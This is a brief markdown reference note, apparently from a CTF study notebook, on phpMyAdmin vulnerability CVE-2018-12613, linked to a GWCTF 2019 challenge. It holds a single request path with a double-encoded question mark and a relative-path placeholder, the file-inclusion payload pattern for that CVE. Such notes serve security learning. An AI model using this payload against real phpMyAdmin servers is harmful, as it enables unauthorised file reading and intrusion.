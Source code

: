 # `CVE-2018-12613`
参考[[[GWCTF 2019]我有一个数据库]]
```php
/phpmyadmin/index.php?target=db_sql.php%253f/<relative_path>
```

#Web #PHP #phpmyadmin #Vulnerabilities 